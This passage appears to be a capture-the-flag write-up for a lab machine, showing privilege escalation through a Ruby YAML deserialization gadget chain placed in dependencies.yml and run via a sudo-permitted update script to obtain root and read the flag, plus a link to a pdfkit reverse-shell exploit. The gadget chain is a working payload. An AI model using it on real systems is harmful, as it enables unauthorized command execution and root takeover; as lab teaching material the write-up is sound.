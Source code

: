 Looking at the PoC we have valid ruby code, but tabbed and in-lined in the format of Ruby. I’m not super familiar with Ruby, but it looks like you’re meant to be able to define code in these templates (maybe for some in-line logic?), but this also lets us build our ability to update.

```jsx
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

It looks like it is loading the file from the same directory `/opt` but unfortunately we don’t have write permissions there, but after a little Ruby refresher, we discover that Ruby actually reads files from the CWD when you run the script, not relative to the script location. so we can use anywhere we have write permissions, as long as we are in that directory when we run the script!

So in the henry home directory `nano dependencies.yml` and copy in the above code. Change the `git_set: id` to `git_set: bash`.

```jsx
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
```

```jsx
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
root@precious:/home/henry# cat /root/root.txt
e3d9..e43
root@precious:/home/henry#
```

And get root. And from root we get the flag.

Fin.

Bonus content:

Looks like there is a script on Exploit-DB to run commands and generate a full reverse shell for the initial foothold (pdfkit) 

[https://www.exploit-db.com/exploits/51293](https://www.exploit-db.com/exploits/51293)

[Blog](https://www.notion.so/Blog-32e3ddcf5b1449e2995b54bcd97a3d9f?pvs=21)
